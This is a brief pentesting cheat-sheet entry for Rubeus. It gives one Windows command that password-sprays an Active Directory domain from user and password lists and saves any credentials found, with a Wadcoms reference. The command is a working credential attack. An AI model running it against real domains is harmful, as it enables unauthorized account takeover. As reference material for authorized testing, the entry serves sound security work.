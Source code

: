 # Rubeus

Search Tags: #password-spraying

`C:\> Rubeus.exe /users:users.lst /passwords:passwords.lst /domain:<domain_name> /outfile:credentials.txt`

---
## References

- [Wadcoms: Rubeus Brute](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)